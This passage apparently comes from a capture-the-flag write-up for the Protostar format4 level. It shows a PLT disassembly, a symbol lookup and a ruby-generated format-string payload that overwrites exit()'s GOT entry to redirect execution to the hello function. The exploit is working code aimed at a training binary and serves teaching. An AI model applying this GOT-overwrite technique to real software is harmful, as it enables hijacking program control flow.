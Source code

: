 /opt/protostar/bin/format4:     file format elf32-i386


Disassembly of section .plt:

0804837c <__gmon_start__@plt-0x10>:
 804837c:	ff 35 04 97 04 08    	pushl  0x8049704
 8048382:	ff 25 08 97 04 08    	jmp    *0x8049708
 8048388:	00 00                	add    %al,(%eax)
	...

0804838c <__gmon_start__@plt>:
 804838c:	ff 25 0c 97 04 08    	jmp    *0x804970c
 8048392:	68 00 00 00 00       	push   $0x0
 8048397:	e9 e0 ff ff ff       	jmp    804837c <_init+0x30>

0804839c <fgets@plt>:
 804839c:	ff 25 10 97 04 08    	jmp    *0x8049710
 80483a2:	68 08 00 00 00       	push   $0x8
 80483a7:	e9 d0 ff ff ff       	jmp    804837c <_init+0x30>

080483ac <__libc_start_main@plt>:
 80483ac:	ff 25 14 97 04 08    	jmp    *0x8049714
 80483b2:	68 10 00 00 00       	push   $0x10
 80483b7:	e9 c0 ff ff ff       	jmp    804837c <_init+0x30>

080483bc <_exit@plt>:
 80483bc:	ff 25 18 97 04 08    	jmp    *0x8049718
 80483c2:	68 18 00 00 00       	push   $0x18
 80483c7:	e9 b0 ff ff ff       	jmp    804837c <_init+0x30>

080483cc <printf@plt>:
 80483cc:	ff 25 1c 97 04 08    	jmp    *0x804971c
 80483d2:	68 20 00 00 00       	push   $0x20
 80483d7:	e9 a0 ff ff ff       	jmp    804837c <_init+0x30>

080483dc <puts@plt>:
 80483dc:	ff 25 20 97 04 08    	jmp    *0x8049720
 80483e2:	68 28 00 00 00       	push   $0x28
 80483e7:	e9 90 ff ff ff       	jmp    804837c <_init+0x30>

080483ec <exit@plt>:
 80483ec:	ff 25 24 97 04 08    	jmp    *0x8049724
 80483f2:	68 30 00 00 00       	push   $0x30
 80483f7:	e9 80 ff ff ff       	jmp    804837c <_init+0x30>


user@protostar:~$ nm /opt/protostar/bin/format4 | grep hello
080484b4 T hello
{% endcodeblock %}

Using `Global Offset Table Hijacking` technique, we will try to overwrite the `0x08049724` address - jmp in `exit()`, with `0x080484b4` - symbol `hello`, at offset `4`. 

{% codeblock %}
user@protostar:~$ ruby1.9.1 ./formatter.rb 4:0x08049724:0x080484b4
ruby -e 'print [0x08049726].pack("V") + [0x08049724].pack("V") + "%4\$2044x%4\$hn%5\$31920x%5\$hn"'
